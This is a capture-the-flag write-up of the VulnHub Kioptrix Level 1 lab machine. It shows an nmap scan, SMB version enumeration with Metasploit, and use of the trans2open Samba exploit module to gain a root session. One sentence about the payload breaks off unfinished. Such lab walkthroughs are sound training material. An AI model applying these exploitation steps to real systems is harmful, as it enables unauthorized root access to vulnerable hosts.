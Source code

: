<h1>KIOPTRIX: LEVEL 1</h1>
Today we'll be looking at the kioptrix 1 machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/).

##Nmap

```
┌──(root㉿kali)-[~]
└─# nmap -A -sV 192.168.1.109  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-10 17:14 EET
Nmap scan report for 192.168.1.109
Host is up (0.00041s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 b8746cdbfd8be666e92a2bdf5e6f6486 (RSA1)
|   1024 8f8e5b81ed21abc180e157a33c85c471 (DSA)
|_  1024 ed4ea94a0614ff1514ceda3a80dbe281 (RSA)
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2023-04-10T15:17:13+00:00; +1m57s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
1024/tcp open  status      1 (RPC #100024)
MAC Address: B0:A4:60:CC:CC:61 (Intel Corporate)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop

Host script results:
|_clock-skew: 1m56s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)

TRACEROUTE
HOP RTT     ADDRESS
1   0.41 ms 192.168.1.109

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.75 seconds
```
##smb enumeration

We can see that the machine is running smb.

Let's use metasploit to figure out the smb version running.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix1/pics/pic1.png)

Let's use **auxiliary/scanner/smb/smb_version**

Now, Set the rhosts to the machine's IP.

```set rhosts <MACHINE_IP>```

Now, type ```run```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/kioptrix1/pic2.png)

Now, that we have the smb version, let's search for an exploit.

Let's use this module: **exploit/linux/samba/trans2open** and set the options.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/kioptrix1/pic3.png)

We also need to replace the default payload with 

Now, let's run it.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/kioptrix1/pic4.png)

Let's interact with any of the opened sessions.

```sessions -i 4```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/kioptrix1/pic5.png)

Yes! we are now root.